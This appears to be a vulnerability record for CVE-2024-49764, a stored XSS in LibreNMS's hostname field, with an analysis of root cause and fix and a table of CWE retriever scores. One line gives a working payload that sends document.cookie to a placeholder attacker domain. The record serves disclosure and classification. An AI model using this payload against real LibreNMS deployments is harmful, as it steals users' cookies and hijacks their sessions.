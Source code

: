 # Vulnerability Information: CVE-2024-49764

## Vulnerability Description
LibreNMS is an open-source, PHP/MySQL/SNMP-based network monitoring system. A **Stored Cross-Site Scripting** (XSS) vulnerability in the Capture Debug Information page allows authenticated users to inject arbitrary JavaScript through the hostname parameter when creating a new device. This vulnerability results in the execution of malicious code when the Capture Debug Information page is visited, redirecting the user and sending non-httponly cookies to an attacker-controlled domain. This vulnerability is fixed in 24.10.0.

### Vulnerability Description Key Phrases
- **weakness:** **Stored Cross-Site Scripting**
- **impact:** inject arbitrary JavaScript and redirect user to attacker-controlled domain and send non-httponly cookies
- **vector:** hostname parameter
- **attacker:** authenticated users
- **product:** LibreNMS
- **version:** before 24.10.0
- **component:** Capture Debug Information page

## CVE Reference Links Content Summary
Based on the provided content, here's an analysis of CVE-2024-49764:

**Root Cause of Vulnerability:**

- The root cause is insufficient sanitization of the `hostname` parameter when creating a new device in LibreNMS. This unsanitized input is later used in the "Capture Debug Information" page.
- Specifically, the `url` variable, derived from the `hostname` parameter, was not properly sanitized before being included in the HTML of the "Capture Debug Information" page.

**Weaknesses/Vulnerabilities Present:**

- **Stored Cross-Site Scripting (XSS):** The primary weakness is the presence of a stored XSS vulnerability. An attacker can inject malicious JavaScript code through the `hostname` parameter.
- **Insufficient Input Sanitization:** The application fails to sanitize user-provided input (`hostname`) before rendering it in the HTML context.

**Impact of Exploitation:**

- **Arbitrary JavaScript Execution:** An attacker can execute arbitrary JavaScript code in the context of other users' sessions when they visit the "Capture Debug Information" page for a compromised device.
- **User Redirection:** The injected script can redirect the user to a malicious domain.
- **Cookie Theft:** The attacker can capture non-HttpOnly cookies, potentially compromising the user's account and enabling unauthorized actions.

**Attack Vectors:**

- **Network:** The attack vector is network-based, meaning an attacker can exploit this vulnerability remotely over the network.
- **HTTP POST Request:** The attacker injects the malicious payload through a POST request when creating a new device. The specific parameter is the `hostname` field.
- **"Capture Debug Information" Page:** The vulnerability is triggered when a victim navigates to the "Capture Debug Information" page for the device with the injected payload.

**Required Attacker Capabilities/Position:**

- **Authenticated User:** The attacker needs to be an authenticated user to create a device, enabling the malicious hostname injection.
- **Knowledge of Target Application:** The attacker must be aware of the vulnerable parameter and the context where the unsanitized data is rendered (the "Capture Debug Information" page).
- **Ability to Create Devices:** The attacker needs the privilege to create new devices. This is mentioned in the "Privileges required" CVSS base metrics as High.

**Additional Details:**

- **Vulnerable Code Location:** The vulnerability is located in `librenms/includes/html/pages/device/capture.inc.php`.
- **Vulnerable versions:** Affects versions <= 24.9.1
- **Patched versions:** Fixed in version 24.10.0
- **CVSS Score:** The vulnerability has a CVSS v3 base score of 7.5.
- **Payload example:** The following payload can be injected into the hostname parameter when creating a new device `test'" autofocus onfocus="document.location='https://<attacker_domain>/logger.php?c='+document.cookie"`.
- **Mitigation:** The fix includes using the `htmlentities()` function to properly encode the `hostname` variable before rendering in the HTML. This was implemented in commit `af15eabbb1752985d36f337cecf137a947e170f6`.
- **CWE:** The vulnerability is classified as CWE-79 (Improper Neutralization of Input During Web Page Generation ['Cross-site Scripting']).

In summary, CVE-2024-49764 is a stored XSS vulnerability in LibreNMS that allows authenticated users to inject malicious scripts via the `hostname` parameter when creating a device. This script executes when a user visits the "Capture Debug Information" page of the device, leading to potential user compromise. The vulnerability is due to lack of proper input sanitization and is fixed by encoding the output using `htmlentities()` function.

## Retriever Results

### Top Combined Results

| Rank | CWE ID | Name | Abstraction | Usage  | Retrievers | Individual Scores |
|------|--------|------|-------------|-------|------------|-------------------|
| 1 | 79 | Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting') | Base | Allowed | sparse | 0.505 |
| 2 | 352 | Cross-Site Request Forgery (CSRF) | Compound | Allowed | sparse | 0.466 |
| 3 | 116 | Improper Encoding or Escaping of Output | Class | Allowed-with-Review | sparse | 0.447 |
| 4 | 80 | Improper Neutralization of Script-Related HTML Tags in a Web Page (Basic XSS) | Variant | Allowed | sparse | 0.436 |
| 5 | 138 | Improper Neutralization of Special Elements | Class | Discouraged | sparse | 0.418 |
| 6 | 1004 | Sensitive Cookie Without 'HttpOnly' Flag | Variant | Allowed | sparse | 0.416 |
| 7 | 434 | Unrestricted Upload of File with Dangerous Type | Base | Allowed | sparse | 0.408 |
| 8 | 89 | Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection') | Base | Allowed | sparse | 0.399 |
| 9 | 306 | Missing Authentication for Critical Function | Base | Allowed | dense | 0.575 |
| 10 | 184 | Incomplete List of Disallowed Inputs | Base | Allowed | graph | 0.002 |

